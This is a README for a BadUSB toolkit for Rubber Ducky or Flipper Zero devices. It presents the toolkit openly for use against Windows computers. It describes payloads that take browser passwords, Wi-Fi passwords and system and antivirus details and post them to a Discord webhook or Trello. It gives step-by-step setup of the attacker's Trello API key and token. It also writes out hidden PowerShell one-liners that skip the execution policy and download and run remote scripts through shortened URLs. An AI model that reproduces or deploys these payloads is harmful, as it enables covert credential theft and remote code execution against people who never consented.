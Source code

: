# W1ns1d3r BadUSB

## Description

This project is a BadUSB mix of some rubber ducky scripts.

- **Version:** [1.0]
- **Average Time :** 
  - W1ns1d3r_f4st_Tr3ll0 : 3 Secs
  - W1ns1d3r_st4gg3d_Tr3ll0 : 30 secs
- **Target:** Windows 10/11 (7/8 not tested)
- **Supported Layout keyboard:** US/FR/DE
- **Author:** [b1g_ph4rm4](https://github.com/Gvte-Kali/BadStuffHosting)

```
______________________________________________________________________________________________

 888      d888                             888          d8888                            d8888  
 888     d8888                             888         d8P888                           d8P888  
 888       888                             888        d8P 888                          d8P 888  
 88888b.   888   .d88b.           88888b.  88888b.   d8P  888  888d888 88888b.d88b.   d8P  888  
 888 "88b  888  d88P"88b          888 "88b 888 "88b d88   888  888P"   888 "888 "88b d88   888  
 888  888  888  888  888          888  888 888  888 8888888888 888     888  888  888 8888888888 
 888 d88P  888  Y88b 888          888 d88P 888  888       888  888     888  888  888       888  
 88888P" 8888888 "Y88888 88888888 88888P"  888  888       888  888     888  888  888       888  
                     888          888                                                           
                Y8b d88P          888                                                           
                 "Y88P"           888                                                           
 ______________________________________________________________________________________________
```

- **Credits:**
  - [![blobs0](https://img.shields.io/badge/blobs0-Ultimate%20Flipper%20Grabber-brightgreen)](https://github.com/blobs0/Ultimate-Flipper-Grabber)
  - [![I-am-jakoby](https://img.shields.io/badge/I--am--jakoby-Discord%20Webhooks%20Functions-blue)](https://github.com/I-am-jakoby)
  - [![UNCOV3R3D](https://img.shields.io/badge/UNCOV3R3D-Statut-orange)](https://github.com/UNC0V3R3D)
  - 7h30th3r0n3
  - moosehadley

## Features 

**W1ns1d3r_st4gg3d_Tr3ll0:** 
- The informations the script pulls :
    - Stage 1 :
        - Web browser passwords
    - Stage 2 :
        - Antivirus software and version
        - User informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
**W1ns1d3r_F4st_Tr3ll0** 
- Don't get the administrative privileges on target.
- Sets the working directory to C:\temp.
- The informations the script pulls :
    - Stage 2 :
        - Antivirus software and version
        - Hardware informations
        - System informations
        - Wifi passwords
- Post everything in your discord webhook
- Notes : The program works on the C:\temp directory and deletes it when the files are uploaded.
  
## How to use
- To get the Trello API working with your scripts, you'll need to get some configuration before using it : 
  - **The ID of the list you want to post into --> Step 1.6**
  - **An API Key --> Step 1.4.3**
  - **A Token --> Step 1.4.5**
- **Setup Guide :**
  - 1 - Creating account and setup informations
    - 1.1 - Create an account on this link : https://id.atlassian.com/login?application=trello
    - 1.2 - Go to your boards, this url should look like this : https://trello.com/u/yourusername/boards
    - 1.3 - Create a board
    - 1.4 - Go on https://trello.com/power-ups/admin and create a new power-up.
      - 1.4.1 - On creation, the only useful thing is to locate it into the worksapce where your board was created ( should only be one workspace if it's a new account ).
      - 1.4.2 - Go to your newly created Power-UP. Now go to API Key and click the "generate API Key".
      - 1.4.3 - **!! VERY IMPORTANT !!** You need to note somewhere the API Key. 
      - 1.4.4 - **!! VERY IMPORTANT !!**  On the API Key page, click on the token button, and authorize Trello to use your account.
      - 1.4.5 - **!! VERY IMPORTANT !!** You need to note the token, should look like *ATTAxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx*.
      - 1.4.6 - Go to your Power-UP *Capabilities* menu and make sure that it gets every authorization.
    - 1.5 - Go on the board you created, the url should look like this : "https://trello.com/b/xxxxxxx/name_of_your_board"
    - 1.6 - Use the idlist script : 
      - 1.6.1 - For linux users, go for the idlist.sh
      - 1.6.2 - For windows users, go for the idlist.ps1
  - 2 - Once you have the idlist, the API key and the token, you need to modify the script or the [.txt] file
    - 2.1 - Modifying the script, you need to add this into it ( Upload-Trello function ): 
      - $idList = "THE_ID_LIST"
      - $key = "YOUR_API_KEY_FROM"
      - $token = "YOUR_TOKEN_FROM"
    - 2.2 - Modifying the [.txt] file : 
      - *powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/wBFLV | iex* **for W1ns1d3r_f4st_Tr3ll0** ( line 23 )
      - *powershell -w h -NoP -Ep Bypass $token='';$key='';$idList='';irm https://shorturl.at/gpvF5 | iex* **for W1ns1d3r_st4gg3d_Tr3ll0** ( line 53 )
    - 3 - Put the modified [.txt] file into your Rubber Ducky or Flipper Zero
    - 4 - Enjoy !

# Releases

- **Version [1.0]** - *10/02/2024*

